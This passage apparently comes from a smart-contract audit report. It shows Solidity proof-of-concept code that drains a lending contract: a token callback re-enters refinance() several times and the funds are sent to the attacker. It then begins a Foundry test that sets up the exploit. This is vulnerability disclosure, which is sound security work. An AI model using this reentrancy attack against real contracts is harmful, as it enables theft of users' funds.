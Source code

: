 ```solidity
            collateral: _collateral
        });
        Refinance[] memory refinances = new Refinance[](1);
        refinances[0] = refinance;
        lender.refinance(refinances);
        // [3] Repay the loan
        ERC20(loanToken).approve(address(lender), _newDebt);
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = _loanId;
        lender.repay(loanIds);
        // [4] Send the funds back to the attacker
        ERC20(loanToken).transfer(msg.sender, ERC20(loanToken).balanceOf(address(this)));
        ERC20(collateralToken).transfer(msg.sender, ERC20(collateralToken).balanceOf(address(this)));
    }

    function tokensReceived(address from, address /*to*/, uint256 /*amount*/) external {
        require(msg.sender == loanToken, "not collateral token");
        if (from == address(lender) && borrowed) {
            // Re-enter 4 times
            if (i < 4) {
                i = i + 1;
                Refinance[] memory refinances = new Refinance[](1);
                refinances[0] = refinance;
                lender.refinance(refinances);                
            }            
        }
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
    // Setup
    address attacker = address(0x5);
    collateralToken.mint(address(attacker), 100*10**18); 
    
    vm.startPrank(lender1);
    WeirdToken weirdToken = new WeirdToken(1_000*10**18); 
    weirdToken.approve(address(lender), 1_000*10**18);
    // lender1 creates a pool of weirdTokens accepting collateralToken as collateral
    Pool memory p = Pool({
        lender: lender1,
        loanToken: address(weirdToken),
        collateralToken: address(collateralToken),
        minLoanSize: 10*10**18,
        poolBalance: 1000*10**18,
        maxLoanRatio: 2*10**18,
        auctionLength: 1 days,
        interestRate: 1000,
        outstandingLoans: 0
    });
    bytes32 poolId = lender.setPool(p);

    // Before the exploit
    assertEq(collateralToken.balanceOf(address(lender)), 0);
    assertEq(weirdToken.balanceOf(address(lender)), 1_000*10**18);      // Lender has 1_000 weirdTokens to lend
    assertEq(collateralToken.balanceOf(address(attacker)), 100*10**18); // Attacker has 100 collateral tokens  
    assertEq(weirdToken.balanceOf(address(attacker)), 0);               // Attacker has no weirdTokens
```